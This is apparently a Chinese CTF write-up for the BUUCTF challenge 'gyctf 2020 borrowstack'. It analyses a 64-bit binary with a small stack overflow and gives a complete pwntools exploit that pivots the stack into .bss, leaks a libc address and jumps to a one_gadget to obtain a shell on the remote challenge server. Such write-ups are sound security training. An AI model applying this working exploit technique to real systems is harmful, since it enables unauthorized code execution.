 ```yaml
---
author: 
  name: Zephyr
title: gyctf 2020 borrowstack
date: 2022-4-8 16:51:29
permalink: /pages/2e1547494524d1b0
tags: 
  - buuctf
  - pwn
  - StackOverflow
  - 栈迁移
---
```


# gyctf 2020 borrowstack

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/gyctf_2020_borrowstack/gyctf_2020_borrowstack'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-60h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  puts(&s);
  read(0, &buf, 0x70uLL);
  puts("Done!You can check and use your borrow stack now!");
  read(0, &bank, 0x100uLL);
  return 0;
}
```

one_gadget如下：

```shell
one_gadget libc6_2.23-0ubuntu10_amd64.so
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```



## 思路分析

1. 目前信息：

   - main函数buf缓冲区有0x10大小可以溢出
   - bank变量在bss段,地址可确定
   - 无system函数，无/bin/sh字符串
   - No canary found
   - NX enabled
   - No PIE
1. 坑
- bss段上的bank距离got表太近，使rop链在执行时覆盖了got表内容，导致失败
2. 思路：
   - 可溢出大小太短，无法一次性构造payload完成控制程序执行流，考虑在第一次溢出将栈迁移至bank处，泄漏libc找到one_gadget，二次溢出到one_gadget处获得shell

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']
pwnfile = '/root/pwn/buuctf/gyctf_2020_borrowstack/gyctf_2020_borrowstack'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 29600)
elf = ELF(pwnfile)
padding = 0x60+8
bss_bank = 0x601080
leave_ret = 0x400699
pop_rdi_ret = 0x400703
ret = 0x4004c9
main_addr = elf.symbols['main']
puts_plt = elf.plt['puts']
libc_start_main_got = elf.got['__libc_start_main']
csu_front = 0x4006E0
csu_rear = 0x4006FA
payload = flat([cyclic(padding-8), bss_bank+0xa0, leave_ret])
# bss段上的bank离got表太近，为了防止覆盖got表，这里选择迁移到bss_bank+0xa0处
io.sendafter('Tell me what you want\n', payload)
payload = flat([cyclic(0xa0), bss_bank+0x100, pop_rdi_ret,libc_start_main_got, puts_plt, main_addr])
io.sendafter('Done!You can check and use your borrow stack now!\n', payload)
leak_libc_start_main = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
log.success("leak_libc_start_main: " + hex(leak_libc_start_main))
# 理论上接下来ret2libc即可，但因为栈已经被迁移至了bss段
# 而返回main处要处理sub rsp,60h这一条指令的同时也要解决后面双栈迁移
# 这样套娃逻辑较为混乱，所以选择one_gadget
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
# 泄漏了几个libc 可以在/LibcSearcher/libc-database/db 找泄漏出的libc对应的one_gadget
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
one_gadget = libc_base + 0x4526a
payload = flat([cyclic(padding), one_gadget])
# 此时rsp+0x30就是null，不需要用ret调整rsp的位置
io.send(payload)
io.send('0xdeadbeef')
io.interactive()
```